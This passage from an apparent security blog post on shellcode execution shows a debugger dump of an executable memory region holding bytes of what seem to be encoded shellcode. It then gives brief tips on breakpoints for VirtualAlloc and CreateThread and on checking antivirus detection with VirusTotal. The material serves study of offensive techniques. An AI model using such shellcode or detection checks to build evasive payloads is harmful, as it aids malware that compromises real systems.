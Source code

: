 ```cpp
---------------------------------------------------------------------------------
*   1c0000   1c1000     1000 MEM_PRIVATE MEM_COMMIT  PAGE_EXECUTE_READWRITE

0:000> db 1c0000
001c0000  da c0 bf 66 3a 39 e5 d9-74 24 f4 5b 33 c9 b1 31  ...f:9..t$.[3..1
001c0010  31 7b 18 03 7b 18 83 eb-9a d8 cc 19 8a 9f 2f e2  1{..{........./.
001c0020  4a c0 a6 07 7b c0 dd 4c-2b f0 96 01 c7 7b fa b1  J...{..L+....{..
001c0030  5c 09 d3 b6 d5 a4 05 f8-e6 95 76 9b 64 e4 aa 7b  \.........v.d..{
001c0040  55 27 bf 7a 92 5a 32 2e-4b 10 e1 df f8 6c 3a 6b  U'.z.Z2.K....l:k
001c0050  b2 61 3a 88 02 83 6b 1f-19 da ab a1 ce 56 e2 b9  .a:...k......V..
001c0060  13 52 bc 32 e7 28 3f 93-36 d0 ec da f7 23 ec 1b  .R.2.(?.6....#..
001c0070  3f dc 9b 55 3c 61 9c a1-3f bd 29 32 e7 36 89 9e  ?..U<a..?.)2.6..
```

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-08-24-OffensiVe-Security-with-V-Shellcode-Execution/Pasted%20image%2020210824230411.png" height="500" width="825" /></p>

> In x32DBG it is possible to use `bp VirtualAlloc` and `bp CreateThread` to set breakpoints.

It is possible to upload the dump to `VirusTotal` to see which antivirus would detect the shellcode.
